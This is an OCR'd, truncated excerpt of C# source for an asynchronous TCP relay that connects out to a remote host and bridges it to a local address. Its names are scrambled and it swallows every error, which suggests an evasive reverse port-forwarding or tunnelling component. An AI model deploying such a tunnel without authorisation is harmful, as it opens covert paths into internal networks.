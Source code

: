 public void Start(string Rip,int Rport,string lip,int lport)
{
try
{
LocalPort=lport;
RemoteAddress=Rip;
RemotePort=Rport;
Localaddress=lip;
rtcpClient=new Socket(AddressFamily.InterNetwork,SocketType.Stream,ProtocolType.Tcp);
ltcpClient=new Socket(AddressFamily.InterNetwork,SocketType.Stream,ProtocolType.Tcp);
rtcpClient.BeginConnect(mtJ(RemoteAddress,RemotePort),new AsyncCallback(iiGFO),rtcpClient);
}
catch (Exception ex) { }
}
protected void iiGFO(IAsyncResult ar)
{
try
{
session RKXy=new session();
RKXy.ldel=ltcpClient;
RKXy.rdel=rtcpClient;
ltcpClient.BeginConnect(mtJ(Localaddress,LocalPort),new AsyncCallback(VTp),RKXy);
}
catch (Exception ex) { }
}
protected void VTp(IAsyncResult ar)
{
try
{
session RKXy=(session)ar.AsyncState;
ltcpClient.EndConnect(ar);
RKXy.rdel.BeginReceive(DPrPL,0,DPrPL.Length,SocketFlags.None,new AsyncCallback(LFYM),RKXy);
RKXy.ldel.BeginReceive(wvZv,0,wvZv.Length,SocketFlags.None,new AsyncCallback(xPS),RKXy);
}
catch (Exception ex) { }
}
private void LFYM(IAsyncResult ar)
{
try
{
session RKXy=(session)ar.AsyncState;
int Ret=RKXy.rdel.EndReceive(ar);
if (Ret&gt;0)
ltcpClient.BeginSend(DPrPL,0,Ret,SocketFlags.None,new AsyncCallback(JTcp),RKXy);
else lyTOK();
}
catch (Exception ex) { }
}
private void JTcp(IAsyncResult ar)
{
try
{
session RKXy=(session)ar.AsyncState;
RKXy.ldel.EndSend(ar);
RKXy.rdel.BeginReceive(DPrPL,0,DPrPL.Length,SocketFlags.None,new AsyncCallback(this.LFYM),RKXy);
}
catch (Exception ex) { }
}
private void xPS(IAsyncResult ar)
{
try
{
session RKXy=(session)ar.AsyncState;
int Ret=RKXy.ldel.EndReceive(ar);